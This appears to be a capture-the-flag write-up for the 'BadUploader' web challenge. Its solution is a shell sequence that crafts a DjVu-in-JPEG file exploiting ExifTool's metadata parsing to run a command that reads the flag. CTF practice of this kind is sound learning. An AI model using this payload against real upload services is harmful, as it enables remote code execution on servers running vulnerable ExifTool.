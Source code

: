 ## BadUploader (200 points)

#### Solved by hieplpvip

```
Bad Uploader

My web app helps you know about file metadata.

Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt

61.28.237.24:30110/uploader

Author: sonnguy3n
```

```shell
wget -qO sample.jpg placekitten.com/200
file sample.jpg
printf 'P1 1 1 1' > input.pbm
cjb2 input.pbm mask.djvu
djvumake exploit.djvu Sjbz=mask.djvu
echo -e '(metadata (copyright "\\\n" . `cat /tmp/flag.txt` #"))' > input.txt
djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
exiftool '-GeoTiffAsciiParams<=exploit.djvu' sample.jpg
perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < sample.jpg > exploit.jpg
mv exploit.jpg exploit.zip
```

**Flag:** `HCMUS-CTF{CVE_22204_1s_v3ry_1nt3r3st1ng}`

### References

- [https://amalmurali47.medium.com/an-image-speaks-a-thousand-rces-the-tale-of-reversing-an-exiftool-cve-585f4f040850](https://amalmurali47.medium.com/an-image-speaks-a-thousand-rces-the-tale-of-reversing-an-exiftool-cve-585f4f040850)
